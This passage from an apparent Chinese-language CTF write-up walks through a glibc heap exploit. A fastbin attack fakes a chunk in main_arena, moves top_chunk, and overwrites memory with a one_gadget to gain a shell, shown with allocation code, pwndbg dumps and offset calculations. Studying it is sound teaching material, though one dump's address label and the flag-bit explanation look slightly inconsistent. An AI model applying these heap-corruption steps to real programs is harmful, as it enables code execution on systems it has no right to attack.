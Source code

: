 可以看到`0x7ffff7dd1b45`地址已经被写入fastbin中。

* 代码段3:

```
alloc(0x48)           | index = 1
alloc(0x40)           | index = 2
update(2, 0x2c, "\x00"*35 + p64(newtop))
```

现在再次申请两个区块，下标为1和2，此时下标为2的区块就包含我们的top_chunk地址，通过修改该区块的内容即可修改top_chunk的地址为我们指定的地址。当然，此时heap基地址以`0x55`开头，申请一定失败。

```
pwndbg> x/xg 0x7ffff7dd1b4c
0x7ffff7dd1b45 <main_arena+45>: 0x0000000000000055        |   <-- 失败
```

```
pwndbg> x/xg 0x7ffff7dd1b4c
0x7ffff7dd1b4c <main_arena+45>:	0x0000000000000056        |   <-- 成功
```

顺便提一下: 0xXXXXXXXX00000056，类似于这样的都行，因为size是int型，只占4个字节。

只有当heap基地址以`0x56`开头时，才能getshell。这是因为，如果以`0x55`开头的话，程序出错。只有开启地址随机化之后，heap基地址可能以`0x55`开头，也可能以`0x56`开头，多试几次即可。

偏移可通过` 35 = 0x7ffff7dd1b78 - 0x7ffff7dd1b45`计算得到。

0x55出错原因:

0x50         0 0 0                    √

0x51         0 0 1                    √

0x52         0 1 0                    √

0x53         0 1 1                     √   

0x54         1 0 0                     x

0x55         1 0 1                     x

0x56         1 1 0                     √

0x57         1 1 1                     √

0x58 ~~ 0x5f 同上，0x5c和0x5d也会出错。

三个标志位含义如下:             

NON_MAIN_ARENA，记录当前 chunk 是否不属于主线程，1表示不属于，0表示属于。

IS_MAPPED，记录当前 chunk 是否是由 mmap 分配的。

PREV_INUSE，记录前一个 chunk 块是否被分配。

```assert (!mem || chunk_is_mmapped (mem2chunk (mem)) || av == arena_for_chunk (mem2chunk (mem)));```

chunk如果属于主线程，那么一定有mmap分配。所以0x54和0x55标志位有误，无法通过检测。

## getshell

```
alloc(56)
update(5, 28, "w"*11 + p64(one)*2)
alloc(22)
```

首先申请一个区块，由于fastbins中没有合适的区块，所以该区块将从top chunk中分配。

偏移可通过`11 = 0x7ffff7dd1b08 - 0x7ffff7dd1afd`得到。

最终可以getshell。需要注意的是，不一定能够得shell，需要多试几次，只有当heap基地址以`0x56开头`时才行，开启地址随机化之后，heap基地址可能以`0x55`开头，也可能以`0x56`开头。
```